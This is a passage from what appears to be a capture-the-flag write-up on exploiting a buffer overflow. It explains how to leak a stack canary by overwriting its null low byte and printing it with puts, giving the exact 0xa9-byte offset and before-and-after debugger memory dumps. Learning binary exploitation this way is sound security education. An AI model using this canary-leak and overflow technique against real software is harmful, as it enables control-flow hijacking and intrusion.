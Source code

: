 ```
    else {
      if (menuChoice == 3) {
        bVar2 = false;
        this = operator<<<std--char_traits<char>>
                         ((basic_ostream *)cout,"[*]BYE ~ TIME TO MINE MIENRALS...");
        operator<<((basic_ostream<char,std--char_traits<char>> *)this,
                   endl<char,std--char_traits<char>>);
      }
```

So we have a buffer overflow bug that we can use to get the return address. However the first mitigation we will need to overcome is the stack canary. The stack canary is an eight byte random integer (four bytes for `x86` systems) that is placed between the variables and the return address. In order to overwrite the return address, we have to overwrite the stack canary. However before the return address is executed, it checks to see if the stack canary has the same value. If it doesn't the program immediately ends.

In order to bypass this, we will need to leak the stack canary. That way we can just overwrite the stack canary with itself, so it will pass the stack canary check and execute the return address (which we will overwrite). We will leak it with the `puts` call, which will print data that it is given a pointer to until it reaches a null byte. With stack canaries the least significant byte is a null byte. So we will just send enough data just to overflow the least significant byte of the stack canary, then print our input. This will print all of our data and the highest seven eight bytes of the stack canary, and since we the lowest byte will always be a null byte, we know the full stack canary. Then we can just execute the buffer overflow again and write over the stack canary with itself in order to defeat this mitigation.

In order to leak the canary we will need to send `0xa9` bytes worth of data. The first `0xa8` will be to fill up the `input` char array, and the last byte will be to overwrite the least significant byte of the stack canary. Let's take a look at the memory for a bit more detail:

```
gef➤  x/24g 0x7ffe80d6b4e0
0x7ffe80d6b4e0: 0x3832373533393531  0x00007fa279a33628
0x7ffe80d6b4f0: 0x0000000000400930  0x00007fa279686489
0x7ffe80d6b500: 0x00007ffe80d6b540  0x0000000000000001
0x7ffe80d6b510: 0x00007ffe80d6b540  0x0000000000601df8
0x7ffe80d6b520: 0x00007ffe80d6b688  0x0000000000400e1b
0x7ffe80d6b530: 0x0000000000000000  0x000000010000ffff
0x7ffe80d6b540: 0x00007ffe80d6b550  0x0000000000400e31
0x7ffe80d6b550: 0x0000000000000002  0x0000000000400e8d
0x7ffe80d6b560: 0x00007fa279dcd9a0  0x0000000000000000
0x7ffe80d6b570: 0x0000000000400e40  0x00000000004009a0
0x7ffe80d6b580: 0x00007ffe80d6b670  0x05345bfe35ee0700
0x7ffe80d6b590: 0x0000000000400e40  0x00007fa279664b97
```

here we can see our input `15935728` starts at `0x7ffe80d6b4e0`. `0xa8` bytes down the stack we can see the stack canary `0x05345bfe35ee0700` at `0x7ffe80d6b588` followed by the saved base pointer and return address. After the overflow this is what the memory looks like:

```
gef➤  x/24g 0x7ffe80d6b4e0
0x7ffe80d6b4e0: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b4f0: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b500: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b510: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b520: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b530: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b540: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b550: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b560: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b570: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b580: 0x3030303030303030  0x05345bfe35ee0730
0x7ffe80d6b590: 0x0000000000400e40  0x00007fa279664b97
```

